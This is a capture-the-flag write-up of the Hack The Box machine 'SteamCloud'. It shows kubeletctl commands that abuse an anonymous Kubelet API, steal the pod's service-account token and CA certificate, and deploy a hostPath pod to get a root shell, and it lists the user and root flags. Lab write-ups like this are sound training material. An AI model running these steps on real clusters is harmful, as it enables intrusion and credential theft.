 ```yaml
---
OS: 
date: 20-06-2025
Time Started: 09:35
Time Ended: 14:09
tags:
  - Linux
  - Easy
  - HTB
---
```





# Given

SteamCloud is an easy difficulty machine. The port scan reveals that it has a bunch of Kubernetes specific ports open. We cannot not enumerate the Kubernetes API because it requires authentication. Now, as Kubelet allows anonymous access, we can extract a list of all the pods from the K8s cluster by enumerating the Kubelet service. Furthermore, we can get into one of the pods and obtain the keys necessary to authenticate into the Kubernetes API. We can now create and spawn a malicious pod and then use Kubectl to run commands within the pod to read the root flag.

## ip/scope:

# Steps

## Enumeration

Started with an nmap scan of all ports, `nmap -sCV -p- -T3 -oN enum/nmap.out` which showed several open ports

```bash
22/tcp    open  ssh  OpenSSH 7.9p1 Debian 10+deb10u2 (protocol2.0)
2379/tcp  open  ssl/etcd-client?                                             2380/tcp  open  ssl/etcd-server?
8443/tcp  open  ssl/http Golang net/http server
10249/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10256/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

Googling the ports 2379, 2380 led me to finding out that they're from the Kubernetes service. 
![](../../Assets/Pasted%20image%2020250620111842.png)

Checking Hacktricks for Kubernetes, and Kubelet API pentesting showed me how to interact with the Kubelet API. Managed to get some api endpoints which I should be able to normally.

```bash
curl -s https://raw.githubusercontent.com/kubernetes/kubernetes/master/pkg/kubelet/server/server.go | grep 'Path("/'


Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

## Exploiting RCE

 `/run` and `/exec` allow us to run code remotely on the containers. An example of `RCE`. 
 
The `kubeletctl` and `kubectl` binaries for interacting with the kubernetes api, and containers. 

- Run `kubeletctl pods--server 10.10.11.13` to get a list of the pods running on the server.
- We can also use this tool to scan for pods with the RCE vulnerability using `kubeletctl scan rce --server 10.10.11.133`

This shows us that the `nginx` pod is vulnerable to RCE. We can use `kubeletctl exec "id" --server 10.10.11.133 -p nginx -c nginx` to test the RCE.

![](../../Assets/Pasted%20image%2020250620143019.png)

## Initial Foothold

This means we could get the kubernetes server to open a bash shell for us to interact with it. Run `kubeletctl exec "/bin/sh" -s 10.10.11.13 -p nginx -c nginx`

![](../../Assets/Pasted%20image%2020250620143223.png)

### Items to Steal

`token` and `ca/crt` are two files that are located at `/var/run/secrets/kubernetes.io/serviceaccount/`. ==When a pod is created, Kubernetes automatically creates a service account for the pod, and assigns it to the pod by default. The files in the directory are used to authenticate and interact with the Kubernetes API server.==

Use `kubeletctl` to view them, and copy them to our attacking machine.

```bash
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/ca.crt

kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/token
```

## Privilege Escalation

The idea here is that the kubernetes pods are running on a Linux Machine, and we want to essentially break out of the pod, and into the machine's file system.

We can go about doing this by mounting the machine's file system to a kubernetes pod we create using `kubectl`, the `ca.crt` and `token` files.
In order to create a pod, we'll also need a YAML file describing the pod in question.

```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: 0ni-pod
  namespace: default
spec:
  containers:
  - name: 0ni-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

### Add Token to Env Variables

```bash
export token=$(cat findings/token)
```

### Create Pod

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f oni.yaml
```

The YAML file specifies a mounted drive called `hostfs`, which has a path of `/` meaning it will map the host machine's root directory.

We can check if this worked by using `kubeletctl` to list the pods running on the server.
![](../../Assets/Pasted%20image%2020250620145547.png)
And now we can connect to our pod by issuing the following command

`kubeletctl exec '/bin/sh' --server 10.10.11.133 -p 0ni-pod -c 0ni-pod`
and we have a root shell.

# Findings

1. Ports:
	1. Kubernetes: 2379, 2380
	2. Kubelet API: 10250
	3. Kube Proxy: 10256
	4. Http/s: 10249, 8443
	5. SSH: 22
2. Exposed Kubelet api endpoints

```bash
Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

3. CA cert and Token files at:
	1. /var/run/secrets/kubernetes.io/serviceaccount/token
	2. /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# Creds

- ca.crt file
- token file

# Flags

- User: a27d02d84fde582089d2f05e0bb41041
- Root: 3d282f17d9a882f36b8d10c503fec6a9

# Proof

![](../../Assets/Pasted%20image%2020250620131859.png)
![](../../Assets/Pasted%20image%2020250620140707.png)